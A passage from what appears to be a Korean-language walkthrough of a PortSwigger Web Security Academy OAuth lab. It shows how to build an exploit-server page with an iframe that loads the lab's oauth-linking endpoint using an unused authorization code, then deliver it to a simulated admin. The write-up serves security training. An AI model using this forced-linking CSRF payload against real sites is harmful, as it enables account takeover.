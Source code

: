 ![OAuth auth 코드사용부분 캡쳐](/images/burp-academy-oauth-2-7.png)

## exploit서버의 응답을 만들기
이제 exploit서버로 이동한다. Body 부분을 다음과 같이 만든다. iframe의 src에는 현재 문제 서버의 URL을 적는다. code는 위의 과정에서 복사해둔 값이다. 아직 사용하지 않았으니 유효한 코드이다. 

```html
<iframe src="https://0a0600fa042796a682527f9a00e000b1.web-security-academy.net/oauth-linking?code=YxwOMOTCYNP40QDzJcvmte0I7CxyF8m6xqur7-lCTZk"></iframe>
```

deliver exploit to victim 버튼을 클릭한다. 이 것으로 관리자가 이 페이지에 접근하는 것을 시뮬레이션할 수 있다. 
